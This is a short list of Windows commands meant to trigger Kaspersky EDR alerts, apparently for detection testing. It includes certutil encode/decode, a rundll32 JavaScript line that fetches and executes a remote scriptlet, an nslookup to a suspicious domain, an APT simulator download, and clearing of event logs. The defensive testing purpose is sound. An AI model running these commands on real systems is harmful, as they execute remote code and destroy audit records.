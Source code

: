 # Methods for triggering Kaspersky EDR alerts

###1: deobfuscate / decode file (run in CMD)

certutil -encode C:\Windows\System32\calc.exe %temp%\T1140_calc.txt
certutil -decode %temp%\T1140_calc.txt %temp%\T1140_calc_decoded.exe

###2: Rundll32 execute JavaScript Remote PAyload with GetObject (run in CMD with admin rights)

rundll32.exe javascript:'\..\mshtml,RunHTMLApplication':document.write();GetObject('script:https://raw.githubusercontent/redcanaryco/atomic-red-team/master/atomics/T1218.011/src/T1218.011.sct').Exec();

###3: nslookup to malicious website

nslookup http://bug.qainfo.ru/test/wmuf_w

###4: Download APT-Simulator and run as admin, then run all tests (0)

https://github.com/NextronSystems/APTSimulator/releases/download/v0.9.4/APTSimulator_pw_apt.zip

###5: Delete Windows event logs (Powershell)

Clear-EventLog -LogName application, system -confirm



